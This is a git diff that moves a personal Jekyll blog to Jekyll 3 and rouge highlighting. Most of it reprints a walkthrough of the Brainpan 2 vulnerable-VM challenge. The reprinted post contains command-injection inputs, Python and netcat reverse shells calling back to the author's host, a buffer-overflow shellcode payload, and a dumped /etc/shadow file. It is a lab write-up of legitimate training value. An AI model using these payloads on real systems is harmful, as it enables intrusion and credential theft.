

Before and after one commit to aldur/aldur.github.io, a Jekyll site: the page built from _posts/2015-11-20-brainpan-2.md, in a window 1280 px wide. Shown: the part 961-2869 px from the top of the page at 80% size, without its empty margins (154-1125 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

````diff
--- a/Gemfile
+++ b/Gemfile
@@ -1,6 +1,5 @@
 source "https://rubygems.org"
 
-gem 'jekyll', '2.5.3'
+gem 'jekyll', '3.0.1'
 gem 'jekyll-sitemap'
 gem 'rouge'
-gem 'octopress', '~> 3.0'
--- a/_config.yml
+++ b/_config.yml
@@ -2,7 +2,7 @@
 
 title: Life, Universe and Bits
 locale: en_US
-description: > # this means to ignore newlines until "baseurl:"
+description: > # ignore following new lines
     Personal blog about life, experiences and science.
 logo: site-logo.png
 search: false
@@ -12,7 +12,7 @@ enforce_ssl: aldur.github.io
 
 permalink:   /:categories/:title/
 markdown:    kramdown
-highlighter: pygments
+highlighter: rouge
 sass:
   sass_dir: _sass
   style: compressed
@@ -20,11 +20,11 @@ gems:
   - jekyll-sitemap
 
 kramdown:
+  input: GFM
   auto_ids: true
   footnote_nr: 1
   entity_output: as_char
   toc_levels: 1..2
-  enable_coderay: false
 
 mathjax: true
 
--- a/_posts/2015-11-20-brainpan-2.md
+++ b/_posts/2015-11-20-brainpan-2.md
@@ -24,13 +24,13 @@ It comes with DHCP enabled, so after configuring the hypervisor networking emula
 
 Anyway, you can use something similar to the following command to discover all hosts alive on your network.
 
-{% highlight bash %}
+```bash
 » sudo nmap -p 0 172.16.20.0/24
-{% endhighlight %}
+```
 
 Once you have the IP address (172.16.20.129 in my case), it's time to discover the hosted services.
 
-{% highlight bash %}
+```bash
 » sudo nmap -sSV -A -T4 172.16.20.129 -p -
 
 Starting Nmap 7.00SVN ( https://nmap.org ) at 2015-11-20 22:31 CET
@@ -85,7 +85,7 @@ HOP RTT     ADDRESS
 
 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 185.63 seconds
-{% endhighlight %}
+```
 
 As you can see `nmap` doesn't recognize the services behind ports 9999 and 10000.
 We can manually inspect them by ourselves, thanks to `ncat`.
@@ -93,7 +93,7 @@ We can manually inspect them by ourselves, thanks to `ncat`.
 Behind port 9999 there seems to be a console panel.
 We'll come back on it later.
 
-{% highlight bash %}
+```bash
 » ncat 172.16.20.129 9999
 _|                            _|
 _|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
@@ -107,11 +107,11 @@ _|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                              LOGIN AS GUEST
 
                           >>
-{% endhighlight %}
+```
 
 Behind port 10000 there seems to be a webserver.
 
-{% highlight bash %}
+```bash
 » ncat 172.16.20.129 10000
 GET /
 
@@ -126,7 +126,7 @@ GET /
 </center>
 </body>
 </html>
-{% endhighlight %}
+```
 
 This setup seems to be strangely familiar to something else I've already seen, the Brainpan 1 vulnerable machine.
 
@@ -134,7 +134,7 @@ This setup seems to be strangely familiar to something else I've already seen, t
 
 First of all I launched a `nikto` scan against the webserver.
 
-{% highlight bash %}
+```bash
 » nikto -h 172.16.20.129:10000
 - Nikto v2.1.5
 ---------------------------------------------------------------------------
@@ -152,11 +152,11 @@ First of all I launched a `nikto` scan against the webserver.
 + End Time:           2015-11-20 17:40:35 (GMT1) (12 seconds)
 ---------------------------------------------------------------------------
 + 1 host(s) tested
-{% endhighlight %}
+```
 
 Well, the `bin` folder seems to be interesting.
 
-{% highlight bash %}
+```bash
 » ncat 172.16.20.129 10000
 GET /bin/
 
@@ -172,14 +172,14 @@ GET /bin/
 </body>
 </html>
 
-{% endhighlight %}
+```
 
 Again, a reference to the Brainpan 1 challenge.
 In that case, there was a `bin` folder too and a `brainpan.exe` file, useful to perform a buffer overflow attack against the console.
 
 A quick inspection of the file shows that the author were trying to troll us.
 
-{% highlight bash %}
+```bash
 » curl -O http://172.16.20.129:10000/bin/brainpan.exe
   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
@@ -187,7 +187,7 @@ A quick inspection of the file shows that the author were trying to troll us.
 
 » file brainpan.exe
 brainpan.exe: JPEG image data, JFIF standard 1.01, comment: "CREATOR: gd-jpeg v1.0 (using IJ"
-{% endhighlight %}
+```
 
 As you can see, it's just the following image, named as an executable file.
 
@@ -206,7 +206,7 @@ After trying the most obvious that came to my mind, I started crafting an automa
 Luckily, while I was doing it I noticed the `LOGIN AS GUEST` text in the console banner.
 And `GUEST` was, in fact, the key.
 
-{% highlight bash %}
+```bash
       » ncat 172.16.20.129 9999
 _|                            _|
 _|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
@@ -234,12 +234,12 @@ _|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
     USERS    MSG     SYSTEM     BYE
 
                           >>
-{% endhighlight %}
+```
 
 So, we've now access to a simple management system.
 After experimenting with the commands, I noticed something interesting.
 
-{% highlight bash %}
+```bash
                           >> FILES
 total 44
 -rwxr-xr-x 1 root   root   18424 Nov  4  2013 brainpan.exe
@@ -271,30 +271,30 @@ anansi:
 puck: look into loading a configuration file instead of hardcoding settings
 in the server, version 1.8
 anansi: dropped configuration file - leave it hardcoded, version 1.9
-{% endhighlight %}
+```
 
 This hints that they're using `popen("cat <filename>", "r")` to display the content of those files.
 Can we trick `popen` into executing arbitrary commands?
 Yes we can!
 
-{% highlight bash %}
+```bash
                           >> VIEW
     ENTER FILE TO DOWNLOAD: aldur; id
 uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
-{% endhighlight %}
+```
 
 Great! Let's spawn a reverse shell.
 
-{% highlight bash %}
+```bash
                           >> VIEW
     ENTER FILE TO DOWNLOAD: aldur;  python -c 'import socket as so,subprocess as su,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("172.16.20.1",9093));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su.call(["bash","-i"])'
-{% endhighlight %}
+```
 
 Notice that I used a relative path while spawning the `bash` process, because the use of slashes seemed to crash the console.
 
 Meanwhile, on another console:
 
-{% highlight bash %}
+```bash
 » ncat -lvp 9093
 Ncat: Version 6.49SVN ( https://nmap.org/ncat )
 Ncat: Listening on :::9093
@@ -305,7 +305,7 @@ bash: no job control in this shell
 anansi@brainpan2:/opt/brainpan$ python -c 'import pty; pty.spawn("/bin/sh")'
 python -c 'import pty; pty.spawn("/bin/sh")'
 $
-{% endhighlight %}
+```
 
 As usual, as first thing I spawn a tty, just to be sure.
 Now, let's try escalating the privileges.
@@ -313,7 +313,7 @@ Now, let's try escalating the privileges.
 ## Privilege escalation
 As usual, among the things I do, I search for setuid executables.
 
-{% highlight bash %}
+```bash
 $ find / -perm -4000 -type f 2>/dev/null
 find / -perm -4000 -type f 2>/dev/null
 /usr/sbin/exim4
@@ -334,11 +334,11 @@ find / -perm -4000 -type f 2>/dev/null
 /bin/su
 /home/reynard/msg_root
 $
-{% endhighlight %}
+```
 
 The last file seems to be interesting.
 
-{% highlight bash %}
+```bash
 $ /home/reynard/msg_root
 /home/reynard/msg_root
 usage: msg_root username message
@@ -355,32 +355,32 @@ Messages are written to /tmp/msg.txt
 usage:
 msg_root "username" "this message is for root"
 $
-{% endhighlight %}
+```
 
 It's a setuid executable and this is a Brainpan machine, so I guess it's time for a buffer overflow attack.
 I spawned a Python HTTP server to download the executable and perform an off-line analysis.
 
-{% highlight bash %}
+```bash
 $ python -m SimpleHTTPServer 10001 &
 python -m SimpleHTTPServer 10001 &
 $ Serving HTTP on 0.0.0.0 port 10001 ...
-{% endhighlight %}
+```
 
 And again, on another console:
 
-{% highlight bash %}
+```bash
 » curl -O http://172.16.20.129:10001/msg_root
   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
 100  8999  100  8999    0     0  3719k      0 --:--:-- --:--:-- --:--:-- 4394k
 » file msg_root
 msg_root: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26, not stripped
-{% endhighlight %}
+```
 
 We can use [the awesome retdec](https://retdec.com/decompilation/) to decompile the executable.
 One of the most interesting part is the following function:
 
-{% highlight C %}
+```c
 // From module:   /root/Desktop/brainpan2/msg_root.c
 // Address range: 0x80486a1 - 0x804873a
 // Line range:    13 - 28
@@ -403,7 +403,7 @@ void get_name(char * u, char * m) {
     save_msg((char *)fp, (char *)fp);
     free((char *)fp);
 }
-{% endhighlight %}
+```
 
 All the work on the message seems to be done on the heap, so no overflow there.
 What about the username? It sounds interesting: if we provide something longer than 17 characters, it's going to end up in the buffer without the termination character `\x00`.
@@ -411,14 +411,14 @@ Let's see if we can use this to overflow the buffer and overwrite the `EIP` regi
 
 First of all I generated off-line a characteristic pattern string, by using [sploit-tools](https://github.com/SaltwaterC/sploit-tools) (inspired by their counterpart in the Metasploit framework, but more portable).
 
-{% highlight bash %}
+```bash
 » python pattern.py create 20
 Aa0Aa1Aa2Aa3Aa4Aa5Aa
-{% endhighlight %}
+```
 
 Then, back inside the machine, I attached the `msg_root` executable to `gdb` and tried the overflow.
 
-{% highlight bash %}
+```bash
 $ gdb msg_root
 gdb msg_root
 GNU gdb (GDB) 7.4.1-debian
@@ -455,16 +455,16 @@ ds             0x7b	123
 es             0x7b	123
 fs             0x0	0
 gs             0x33	51
-{% endhighlight %}
+```
 
 Bingo, it crashes.
 Let's see the offset:
 
-{% highlight bash %}
+```bash
 » python pattern.py offset 0x35614134
 hex pattern decoded as: 4Aa5
 14
-{% endhighlight %}
+```
 
 So, we have an offset of 14 bytes and we can then overwrite the content of the `EIP` register.
 Now we need a shellcode. This time I decided to use one of my favorite overflow techniques.
@@ -475,17 +475,17 @@ Let's craft the payload.
 I borrowed the shellcode from the one in Smashing the Stack and added 32 `NOP`s as a prefix.
 Then, I put everything in the PAYLOAD variable.
 
-{% highlight bash %}
+```bash
 $ export PAYLOAD=$(python -c 'print(b"\x90" * 32 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
 export PAYLOAD=$(python -c 'print(b"\x90" * 32 + b"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
 $ echo -n $PAYLOAD | wc
 echo -n �$PAYLOAD | wc
       0       3      78
-{% endhighlight %}
+```
 
 Let's find where this variable lives on the stack.
 
-{% highlight bash %}
+```bash
 $ gdb msg_root
 gdb msg_root
 GNU gdb (GDB) 7.4.1-debian
@@ -534,14 +534,14 @@ x/s *((char **)environ + 5)
 (gdb) x/s *((char **)environ + 5) + strlen("_=PAYLOAD=")
 x/s *((char **)environ + 5) + strlen("_=PAYLOAD=")
 0xbfffff2c:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
-{% endhighlight %}
+```
 
 Perfect, `0xbfffff2c` is the address we needed.
 We can now try the buffer overflow.
 
 We'll use 14 bytes of garbage and then the address of the variable, reversed because of the endianess of the processor.
 
-{% highlight bash %}
+```bash
 (gdb) run Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
 run Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
 The program being debugged has been started already.
@@ -558,11 +558,11 @@ Continuing.
 process 2672 is executing new program: /bin/dash
 Error in re-setting breakpoint 1: Function "main" not defined.
 $
-{% endhighlight %}
+```
 
 Now we only need to try it in the original environment.
 
-{% highlight bash %}
+```bash
 $ exit
 exit
 [Inferior 1 (process 2672) exited with code 0177]
@@ -574,12 +574,12 @@ $ id
 id
 uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
 $
-{% endhighlight %}
+```
 
 Great, it still works and we're `root`!
 Let's try capturing the flag.
 
-{% highlight bash %}
+```bash
 $ cd /root
 cd /root
 $ ls
@@ -605,14 +605,14 @@ cat whatif.txt
        YOU ARE NOT ROOT?
 
 $
-{% endhighlight %}
+```
 
 Yes, there is something really strange going on here.
 The integer representing the `euid` is indeed 104, and not 0 as it should be.
 
 A peek in the `/etc/passwd` file solves the riddle.
 
-{% highlight bash %}
+```bash
 $ cat /etc/passwd
 cat /etc/passwd
 root:x:104:106:root:/root:/bin/bash
@@ -641,7 +641,7 @@ sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
 anansi:x:1000:1000:anansi,,,:/home/anansi:/bin/bash
 puck:x:1001:1001:puck,,,:/home/puck:/bin/bash
 reynard:x:1002:1002:reynard,,,:/home/reynard:/bin/bash
-{% endhighlight %}
+```
 
 As you can see there are two similar accounts:
 1. `root`
@@ -651,7 +651,7 @@ As you can see there are two similar accounts:
 
 Let's start again, looking for interesting binaries.
 
-{% highlight bash %}
+```bash
 $ find / -perm -4000 -type f 2>/dev/null
 find / -perm -4000 -type f 2>/dev/null
 /opt/old/brainpan-1.8/brainpan-1.8.exe
@@ -672,11 +672,11 @@ find / -perm -4000 -type f 2>/dev/null
 /bin/ping6
 /bin/su
 /home/reynard/msg_root
-{% endhighlight %}
+```
 
 This time is the first file to be interesting.
 
-{% highlight bash %}
+```bash
 $ cd /opt/old/brainpan-1.8
 cd /opt/old/brainpan-1.8
 $ ls
@@ -689,24 +689,24 @@ ipaddr=127.0.0.1
 $ file brainpan-1.8.exe
 file brainpan-1.8.exe
 brainpan-1.8.exe: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26, BuildID[sha1]=0xcce373746445bee7531358c8b349018de08ec1f3, not stripped
-{% endhighlight %}
+```
 
 We can use the previous trick to download the file.
 
-{% highlight bash %}
+```bash
 $ python -m SimpleHTTPServer 10002 &
 python -m SimpleHTTPServer 10002
 $ Serving HTTP on 0.0.0.0 port 10002 ...
-{% endhighlight %}
+```
 
 And then, on the local machine:
 
-{% highlight bash %}
+```bash
 » curl -O http://172.16.20.129:10002/brainpan-1.8.exe
   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                  Dload  Upload   Total   Spent    Left  Speed
 100 17734  100 17734    0     0  6525k      0 --:--:-- --:--:-- --:--:-- 8659k
-{% endhighlight %}
+```
 
 A quick analysis of the decompiled file shows that it's really similar to the one we exploited previously.
 What if we can use the same trick?
@@ -714,7 +714,7 @@ Let's try.
 First we edit the configuration file in order to bind on all interfaces and then we launch the server in background.
 
 
-{% highlight bash %}
+```bash
 $ cat brainpan.cfg
 cat brainpan.cfg
 port=9333
@@ -727,11 +727,11 @@ ipaddr = 0.0.0.0
 + bind done
 + waiting for connections...
 + connection accepted
-{% endhighlight %}
+```
 
 Then, on another console:
 
-{% highlight bash %}
+```bash
       » ncat 172.16.20.129 9333                                                                           [15:33:45]
 _|                            _|
 _|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|
@@ -756,11 +756,11 @@ _|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
 
                           >> VIEW
     ENTER FILE TO DOWNLOAD: a; nc -e /bin/dash 172.16.20.1 9095
-{% endhighlight %}
+```
 
 And finally, on a third console:
 
-{% highlight bash %}
+```bash
 » ncat -lvp 9095
 Ncat: Listening on :::9095
 Ncat: Listening on 0.0.0.0:9095
@@ -770,12 +770,12 @@ python -c 'import pty; pty.spawn("/bin/sh")'
 $ id
 id
 uid=1001(puck) gid=1000(anansi) groups=1001(puck),50(staff),1000(anansi)
-{% endhighlight %}
+```
 
 Perfect, so we're now logged in as `puck`.
 As usual, let's start exploring.
 
-{% highlight bash %}
+```bash
 $ cd /home/puck
 cd /home/puck
 $ ls -la
@@ -801,11 +801,11 @@ drwx------ 4 puck puck 4096 Nov  5  2013 ..
 -rw-r--r-- 1 puck puck 3392 Nov  4  2013 .bashrc
 -rw-r--r-- 1 puck puck  675 Nov  4  2013 .profile
 drwx------ 2 puck puck 4096 Nov  4  2013 .ssh
-{% endhighlight %}
+```
 
 Let's peek inside the `.bash_history` file.
 
-{% highlight bash %}
+```bash
 $ cat .bash_history
 cat .bash_history
 # ...
@@ -815,12 +815,12 @@ mkdir .backup
 mv .ssh .bash* .backup
 cd .backup/
 $
-{% endhighlight %}
+```
 
 We can see that this user can login as `root ` (with a space) through SSH.
 From the old `root` console, let's check the SSH config.
 
-{% highlight bash %}
+```bash
 $ cat /etc/ssh/sshd_config
 cat sshd_config
 # Package generated configuration file
@@ -834,19 +834,19 @@ Port 2222
 ListenAddress 127.0.1.1
 Protocol 2
 # ...
-{% endhighlight %}
+```
 
 Is the service running?
 
-{% highlight bash %}
+```bash
 $ service ssh status
 service ssh status
 sshd is running.
-{% endhighlight %}
+```
 
 Perfect, back to `puck`'s console.
 
-{% highlight bash %}
+```bash
 $ ssh -l "root " brainpan2 -p 2222 -i /home/puck/.backup/.ssh/id_rsa
 ssh -l "root " brainpan2 -p 2222 -i /home/puck/.backup/.ssh/id_rsa
 Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686
@@ -860,11 +860,11 @@ permitted by applicable law.
 Last login: Thu Nov  7 11:00:06 2013
 
 root @brainpan2:~#
-{% endhighlight %}
+```
 
 Again, my class challenge was to get the `/etc/shadow` file.
 
-{% highlight bash %}
+```bash
 $ cat /etc/shadow
 cat /etc/shadow
 root :$6$D9VnvbNB$fj0rwgveUnYfVgMezCv1OWZg7MlEJFdmjjCSSdmSJ8UtOD8vSQiWnCjTtPK9J956Ll5YMwAU5yiYVErApMSUu1:16013:0:99999:7:::
@@ -893,4 +893,4 @@ sshd:*:16013:0:99999:7:::
 anansi:$6$pUKVkq5n$y9uizRLIziMu7qQtVhcctuSTXgimRelQ8bMSY3Anu5b/vIa1criuKauGEwZiXJujq9PIliI2AD31RW7WXsw9w1:16013:0:99999:7:::
 puck:$6$lihKYSRT$DxZVlB/o1MRsumsls438zlB2wGJXdBk6wtzU8l2i/txd2o1xzpWeEjqoQCX/JRc3OIBMgfj7sG9O2hsh2YS4i/:16013:0:99999:7:::
 reynard:$6$ldLpysqz$8SaEWO5Cr.rtq9BUC/34dpriABZEshmGaqK/UrlP.fFV2DrZOgjES6kFRbtOfuhLvu16nAca4jtSYbMq/wyiE1:16013:0:99999:7:::
-{% endhighlight %}
+```
````
Also changed, not shown: _posts/2015-11-19-brainpan.md (+28 -28 lines), _posts/2016-01-03-nexus-5x-mac.md (+6 -6 lines), Gemfile.lock.
